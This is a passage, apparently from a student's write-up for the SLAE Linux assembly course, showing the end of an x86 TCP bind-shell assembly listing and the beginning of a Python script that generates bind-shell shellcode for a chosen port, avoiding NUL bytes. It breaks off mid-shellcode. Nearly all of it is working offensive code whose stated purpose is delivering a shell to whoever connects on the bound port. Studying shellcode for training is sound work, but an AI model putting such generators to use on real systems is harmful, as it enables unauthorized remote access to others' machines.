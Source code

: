 ```nasm
    mov al, 0x0b                ; set up syscall id and fire interrupt
    int 0x80

; At this point we should have delivered a shell to the first person connecting on our bound port.

```

### Wrapper Script
*[Wrapper on Github](https://github.com/fbcsec/slae-assignments/blob/master/1-tcp-bind-shell/tcp-bind-shell-wrapper.py)*

```python
#!/usr/bin/env python3
"""
x86 Linux TCP Bindshell Generator
Handles portnumbers which have NULs in their hex representation
Usage: this_script.py <port_to_bind>
Author: fbcsec
This code was written to fulfill the requirements of the SecurityTube Linux Assembly Expert course:
http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html
Student ID: SLAE - 1187
"""
from sys import argv

if len(argv) != 2:
    print('Usage: %s <port_to_bind>')
    raise SystemExit

port = int(argv[1])

if port > 65535:
    print('ERROR: Port number cannot be greater than 65535.')
    raise SystemExit

if port == 0:
    print('ERROR: Port 0 is not usable.')
    raise SystemExit

# Zero padded port in hexadecimal
hexport = "{0:#0{1}x}".format(port, 6)

# If port is below 256
if hexport[2:4] == '00':
    HANDLE_PORT_NUMBER = ("\x80\xc6" +  # add dh <port number low bytes>
                          bytearray.fromhex(hexport[4:6]).decode('iso-8859-1') +
                          "\x66\x52" +  # push word dx
                          "\x31\xd2")  # xor edx, edx

elif hexport[4:6] == '00':
    HANDLE_PORT_NUMBER = ("\x80\xc2" +  # add dl <port number high bytes>
                             bytearray.fromhex(hexport[2:4]).decode('iso-8859-1') +
                             "\x66\x52" +  # push word dx
                             "\x31\xd2")  # xor edx, edx
else:
    HANDLE_PORT_NUMBER = ("\x66\x68" +  # push word <big endian port number>
                          bytearray.fromhex(hexport[2:4]).decode('iso-8859-1') +
                          bytearray.fromhex(hexport[4:6]).decode('iso-8859-1'))

shellcode = bytearray("\x31\xdb"  # xor ebx, ebx
                      "\xf7\xe3"              # mul ebx
                      "\x50"                  # push eax
                      "\x43"                  # inc ebx
                      "\x53"                  # push ebx
```
